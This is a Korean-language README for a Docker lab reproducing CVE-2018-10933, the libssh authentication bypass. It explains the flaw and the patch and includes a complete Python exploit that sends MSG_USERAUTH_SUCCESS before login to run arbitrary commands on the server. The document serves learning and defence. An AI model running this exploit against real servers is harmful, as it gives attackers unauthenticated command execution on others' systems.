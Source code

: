 # libssh Authentication Bypass Vulnerability(CVE-2018-10933)


**Contributors**
-   [황현택(@hhtboy)](https://github.com/hhtboy)
-   [진규정(@gyutrange)](https://github.com/gyutrange)
-   [이름입력(@hong)](깃허브 주소 입력)

<br/>

### 요약

- 해당 취약점은 libssh에 대한 취약점입니다.
- libssh는 클라이언트와 서버간 SSHv2 프로토콜을 상속받은 멀티플랫폼 C언어 라이브러리입니다. libssh를 사용해서 ssh연결을 해 클라이언트와 서버가 보다 안전한 통신을 할 수 있습니다.
- 이 취약점은 libssh의 서버쪽 state machine에서 발견되었습니다. 공격자는 인증되기도 전에 `MSG_USERAUTH_SUCCESS` 메세지를 보내는 것으로 인증을 우회할 수 있습니다.


### 참고 문서
- https://www.libssh.org/security/advisories/CVE-2018-10933.txt
- https://www.seebug.org/vuldb/ssvid-97614

<br/>

### 환경 구성 및 실행

#### 1. 환경 구성

아래 명령어로 docker 컨테이너 환경을 실행합니다.

```
docker compose up -d
```
<br>

아래 명령어로 컨테이너가 실행중인지 확인합니다.
```
docker ps
```
<br>

![](image/docker_ps.png)
<br>
위와 같이 보인다면 테스트 환경이 정상적으로 구축된것입니다.

#### 2. 정상적인 libssh 시도

컨테이너에는 리눅스 서버가 돌아가고 있습니다.
서버에 접속하기 위해 ssh 연결을 시도합니다.
<br>
계정 : myuser / 비밀번호 : mypassword
<br>
아래 명령어로 ssh 접속을 할 수 있습니다.
(포트번호는 docker-compose파일에 따라 변경합니다.)
```
ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -p 2222 myuser@localhost
```
<br><br>
비밀번호를 입력해서 정상적인 방법으로 접근이 되는 것을 확인합니다.
![](image/legal_connection.png)

만약 `no matching key exchange method found` 관련 문제가 발생한다면, ~/.ssh/config 파일을 아래와 같이 수정합니다.
```
Host 127.0.0.1
HostKeyAlgorithms=+ssh-rsa
```
![](image/ssh_config.png) 



#### 3. libssh Authentication Bypass 취약점을 이용한 비정상 접근

아래와 같은 `exploit.py`파일을 생성합니다.
```
#!/usr/bin/env python3
import sys
import paramiko
import socket
import logging

logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
bufsize = 2048


def execute(hostname, port, command):
    sock = socket.socket()
    try:
        # 입력한 호스트 IP, Port 번호로 소켓 연결
        sock.connect((hostname, int(port)))

        # 서버로 보낼 메세지 생성
        message = paramiko.message.Message()
        transport = paramiko.transport.Transport(sock)
        transport.start_client()

        # exploit의 핵심 부분. 메세지에 MSG_USERAUTH_SUCCESS를 추가해서 전송
        message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
        transport._send_message(message)

        # 입력한 command 실행
        client = transport.open_session(timeout=10)
        client.exec_command(command)

        # 서버에서 실행된 결과를 stdout으로 받아오기
        # stdin = client.makefile("wb", bufsize)
        stdout = client.makefile("rb", bufsize)
        stderr = client.makefile_stderr("rb", bufsize)

        # 결과를 터미널에 출력
        output = stdout.read()
        error = stderr.read()

        stdout.close()
        stderr.close()

        return (output+error).decode()

    # SSH 연결 실패 처리
    except paramiko.SSHException as e:
        logging.exception(e)
        logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")
    except socket.error:
        logging.debug("Unable to connect.")

    return None


if __name__ == '__main__':
    print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))
```
<br><br>

아래 명령어로 별다른 인증 없이 서버로 명령을 보내고 결과를 받아볼 수 있습니다.
<br/>

`python3 exploit.py 127.0.0.1 [docker에서 설정한 포트] "[실행되길 원하는 명령어]"`
<br/>

```
python3 exploit.py 127.0.0.1 2222 "id"
```

<br/>

### 결과

명령어로 id를 주니 명령어가 실행된 결과가 마지막에 나타납니다.
![](image/result1.png)
<br><br>
명령어로 홈 디렉토리에 새로운 디렉토리를 생성해보았습니다.
![](image/result2.png)
<br><br>
정상적인 방법으로 서버에 접속해서 생성된 디렉토리를 확인할 수 있습니다.
![](image/result3.png)

<br/>

### 정리
정상적인 ssh 연결은 아래와 같은 순서로 이루어집니다.<br>
- 클라이언트가 서버에게 SSH_MSG_USERAUTH_REQUEST를 요청
- 서버는 클라이언트가 보낸 사용자가 유효한지 확인하고, 유효하지 않으면 SSH_MSG_USERAUTH_FAILURE를 보내고, 인증을 받기 위해 SSH_MSG_USERAUTH_REQUEST를 전송함.
- 클라이언트는 인증 방법 중 하나를 선택한 후, 인증 방법과 필요한 값들을 함께 SSH_MSG_USERAUTH_REQUEST를 전송.
- 서버는 클라이언트가 보낸 요청이 유효한지 확인하고, 인증에 성공하면 SSH_MSG_USERAUTH_SUCCESS 메세지를 송신하고 인증을 종료함.

문제는 클라이언트가 SSH_MSG_USERAUTH_REQUEST를 요청한 후 대기중인 상태에서, 서버가 SSH_MSG_USERAUTH_SUCCESS 메세지를 수신하면 정상적으로 인증된 것으로 판단하고 연결이 됩니다.

#### 해결방법

- 취약점이 패치된 libssh 0.8.4와 0.7.6 버전으로 업데이트하여 해결할 수 있습니다.
